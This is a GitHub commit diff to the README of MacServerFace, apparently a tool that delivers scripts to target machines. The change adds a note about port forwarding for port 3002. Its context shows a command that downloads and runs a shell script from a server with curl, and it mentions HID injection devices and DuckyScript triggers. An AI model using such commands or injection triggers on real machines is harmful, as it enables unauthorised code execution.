

Before and after one commit to Pmacdon15/MacServerFace, a Markdown page: README.md, the part around the change. Rendered like a GitHub page.

Commit message:
Update setup.py to include port forwarding for port 3002

```diff
--- a/README.md
+++ b/README.md
@@ -183,7 +183,7 @@ bash -c "$(curl -fsSL http://<ipaddress>:3002/<scriptName.sh>)"
 Other wise you can use an HID injection device and uses one of the trigger scripts I have provided:
 
 > [!NOTE]
-> Make sure to run setup.py to update the server Ip address, as well as choosing a script name.
+> Make sure to run setup.py to update the server Ip address, as well as choosing a script name and setting port forwarding for port 3002.
 
 ### DuckyScript
 
```
